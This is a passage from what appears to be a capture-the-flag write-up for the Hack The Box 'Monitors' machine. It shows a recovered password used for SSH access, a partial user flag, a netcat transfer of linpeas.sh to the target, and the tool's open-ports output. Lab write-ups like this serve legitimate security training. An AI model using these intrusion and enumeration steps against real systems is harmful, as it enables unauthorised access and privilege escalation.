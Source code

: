 ```zsh
```

We then obtain a new password `VerticalEdge2020`.

# Root

With this, we connect to Marcus’s SSH:

```zsh
┌──(kali㉿kali)-[~]
└─$ ssh marcus@monitors.htb    
marcus@monitors:~$
```

We also get the user flag:

```zsh
marcus@monitors:~$ cat user.txt 
5bb7..443ea
```

## linpeas.sh

Now we aim to escalate privileges to `root`. To do so, we’ll use `linpeas.sh` to enumerate interesting information.

Neither curl nor wget is available, so we won’t use HTTP to send files; we’ll use netcat since it’s available:

```zsh
# Target:
$ nc -l -p 1234 > linpeas.sh
nc -l -p 1234 > linpeas.sh
```

```zsh
# Kali:
┌──(kali㉿kali)-[~/Desktop/linpeas-server]
└─$ nc -w 3 10.10.10.238 1234 < linpeas.sh
```

We run linpeas:

```zsh
$ chmod +x linpeas.sh
chmod +x linpeas.sh
$ ./linpeas.sh
```

Linpeas shows the locally used ports:

```zsh
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                                                                                                                                               
tcp        0      0 127.0.0.1:8443          0.0.0.0:*               LISTEN      -                                                                                                                                                           
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
```